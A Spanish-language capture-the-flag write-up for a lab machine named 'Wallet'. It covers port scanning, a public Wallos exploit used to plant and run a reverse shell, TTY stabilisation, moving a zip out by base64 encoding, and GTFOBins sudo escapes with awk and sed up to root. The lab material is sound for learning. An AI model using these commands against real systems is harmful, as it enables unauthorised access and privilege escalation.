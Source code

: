 # MÁQUINA WALLET

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Wallet/foto.jpg)

Únicamente está accesible el puerto 80, así que vamos a ver su contenido:

![WEB](https://github.com/Isma-yo/photos/blob/main/Wallet/foto2.jpg)

Vemos una página la cuál no esconde nada, si hacemos click en el botón de Get a quote, podemos ver que nos redirije a un dominio, vamos a añadirlo a nuestro fichero /etc/hosts:

```shell

sudo nano /etc/hosts

172.17.0.2    panel.wallet.dl
```

![HOSTS](https://github.com/Isma-yo/photos/blob/main/Wallet/foto3.jpg)

Si ahora refrescamos la página nos encontraremos con una pantalla la cuál nos obliga a crear un usuario si queremos continuar, así que lo haremos:

![CREATE](https://github.com/Isma-yo/photos/blob/main/Wallet/foto4.jpg)

Hecho esto nos registramos y vemos que estamos dentro. Si nos vamos al apartado de Acerca de vemos que tenemos una versión de Wallos, podemos buscar si existe alguna vulnerabilidad:

![VER](https://github.com/Isma-yo/photos/blob/main/Wallet/foto5.jpg)

https://sploitus.com/exploit?id=EDB-ID:51924

Seguimos los pasos de la página y vemos que conseguimos guardar la reverse shell. Una vez guardada nos vamos al lugar donde se almacenan y vemos que ahí esta, así que la ejecutamos mientras estamos en escucha y estamos dentro:

![IN](https://github.com/Isma-yo/photos/blob/main/Wallet/foto6.jpg)

Ahora tendremos que tratar la tty (terminal) con los siguientes comandos:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

```shell
stty rows 24 columns 126
```

Si ejecutamos el comando sudo -l vemos que podemos utilizar awk como el usuario pylon, vamos a buscar como escalar privilegios en GTFOBins:

https://gtfobins.github.io/gtfobins/awk/#sudo

```shell
sudo -u pylon awk 'BEGIN {system("/bin/bash")}'
```

![PY](https://github.com/Isma-yo/photos/blob/main/Wallet/foto7.jpg)

Ya somos Pylon, tras buscar por los distintos directorios encontramos algo interesante en su directorio home, sin emvbargo no sabemos la contraseña:

![ZIP](https://github.com/Isma-yo/photos/blob/main/Wallet/foto8.jpg)

Si intentamos pasarlo a nuestra máquina para sacar la contraseña vemos que no hay ninguna manera de hacerlo, así que una manera es codificarlo y una vez codificado copiar el contenido en nuestra máquina atacante donde lo descodificaremos:

![BAS](https://github.com/Isma-yo/photos/blob/main/Wallet/foto9.jpg)

![PASS](https://github.com/Isma-yo/photos/blob/main/Wallet/foto10.jpg)

Ya sabemos la contraseña, veamos que hay dentro:

![PING](https://github.com/Isma-yo/photos/blob/main/Wallet/foto11.jpg)

Repetiremos lo mismo que con el usuario Pylon, hacemos un sudo -l y comprobamos que podemos ejecutar sed como cualquier usuario y sin contraseña, vamos a escalar privilegios:

https://gtfobins.github.io/gtfobins/sed/#sudo

```shell
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Wallet/foto12.jpg)

Y ya somos root!












